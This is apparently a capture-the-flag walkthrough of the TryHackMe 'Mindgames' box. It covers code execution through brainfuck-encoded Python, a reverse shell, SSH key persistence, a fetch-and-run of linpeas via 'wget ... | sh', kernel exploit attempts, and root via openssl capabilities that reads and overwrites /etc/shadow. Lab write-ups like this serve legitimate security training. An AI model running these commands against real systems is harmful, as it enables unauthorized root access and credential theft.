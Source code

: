 This is a writeup for the Box Mindgames on TryHackMe.


We are greeted by this webpage:

[![https://imgur.com/qYX6ZrS.png](https://imgur.com/qYX6ZrS.png)](https://imgur.com/qYX6ZrS.png)


There we can see some weird cryptic characters.

Luckily i saw it before and knew it is brainfuck code.

I used https://copy.sh/brainfuck/text.html to start playing arround with someoutput.

It seems like the code is executed in python so we can try something like a simple ls:

[![https://imgur.com/hBHedq9.png](https://imgur.com/hBHedq9.png)](https://imgur.com/hBHedq9.png)

It works!

[![https://imgur.com/Ix7XilL.png](https://imgur.com/Ix7XilL.png)](https://imgur.com/Ix7XilL.png)

Now lets try to search arround for hints / something interesting.

After searching arround i didn't find anything so i though the best way is to get a reverseshell.
I tried to copy paste one from PayloadsAllTheThings but it didn't work. (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
Took me a few min to realize that i have to adjust it because we don't need to tell the programm to run python we can just start at the import statement:

[![https://imgur.com/nbwFn9z.png](https://imgur.com/nbwFn9z.png)](https://imgur.com/nbwFn9z.png)

Now we are in!

[![https://imgur.com/q5JEsep.png](https://imgur.com/q5JEsep.png)](https://imgur.com/q5JEsep.png)

Lets find the userflag and a way to advance ! 

I found the userflag yaaay i am not going to tell you where but its not hidden.

Next i made a .ssh directory generated ssh keypair with sshkeygen and added the pubkey in the authorized file i created copyed the private key to my host machine and logged into ssh with the -i option for private key.

[![https://imgur.com/hGxHijO.png](https://imgur.com/hGxHijO.png)](https://imgur.com/hGxHijO.png)

Now on my hostmachine i already have linpeas.sh downloaded so i set up a http.server with python:

python3 -m http.server 10000

On the target in the /tmp directory we can get the file now with wget and execute it:

wget http://ip:10000/linpeas.sh | sh

We find something interesting.

[![https://imgur.com/qTykJym.png](https://imgur.com/qTykJym.png)](https://imgur.com/qTykJym.png)

[![https://imgur.com/fG0YCF6.png](https://imgur.com/fG0YCF6.png)](https://imgur.com/fG0YCF6.png)

Check kernel version:

[![https://imgur.com/e40xsCU.png](https://imgur.com/e40xsCU.png)](https://imgur.com/e40xsCU.png)

searchsploit with the kernel version gives us this beauties to check:

[![https://imgur.com/9wYBWI4.png](https://imgur.com/9wYBWI4.png)](https://imgur.com/9wYBWI4.png)

Lets try them out:

You can use searchsploit -m to download:
searchsploit -m linux/local/47164.sh

i renamed it to kernel_exploit.sh and then got it on the target machine with over our http server.

Typicall problems: forget permission and then wrong format..

[![https://imgur.com/8sOrDJc.png](https://imgur.com/8sOrDJc.png)](https://imgur.com/8sOrDJc.png)

Okay this seems to be a dead end..

[![https://imgur.com/ksaBlg1.png](https://imgur.com/ksaBlg1.png)](https://imgur.com/ksaBlg1.png)

Lets look for other ways to proceed!
We found cap_setsuid ! 
[![https://imgur.com/HEP67KP.png](https://imgur.com/HEP67KP.png)](https://imgur.com/HEP67KP.png)

[![https://imgur.com/eWFs7uR.png](https://imgur.com/eWFs7uR.png)](https://imgur.com/eWFs7uR.png) CREDS TO: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities

[![https://imgur.com/zXzZZff.png](https://imgur.com/zXzZZff.png)](https://imgur.com/zXzZZff.png)


Here a short summary taken from the medium article full credits go to him (his name is: Z3R0 ): 

The following part i had to research and i found this awsome medium article about Linux Capabilities and how to use openssl
 with the capability set to ep to get root.

AGAIN CREDIT TO: https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

Come here again when you fully understood it and give a good summary in own words.

1. So far i understood that you can use openssl to create keys and certificates. -> So we can create a keys and certificates
2. You can also start a server running with openssl. -> We can start a server with that keys and certificates
3. Depending on where you are when you have the capability of ep set on openssl it will inherit the permission from the location. -> We start the server with openssl in the / directory.
That means if you start the server from a low privileged userdirectory you will inherit that permission but if you create it in the / directory the server will inherit root permission.
4. We can access this server with wget or curl from our normal user. -> We can do something like: curl -k "https://127.0.0.1:1337/etc/shadow"
5. Now that we have a copy of the /etc/shadow file we can create our own password hash with openssl and with that we can replace the hash for the root user in the file. -> openssl passwd -6 -salt xyz  yourpass
6. Now we want to overwrite the orginial /etc/shadow file to do that we have to encrypt our new shadowfile otherwise we can't transport it over openssl.
7. Now we can overwrite the original file. -> /openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/privkey.pem -out /etc/shadow
8. We can switch User to root now since we created the new password!


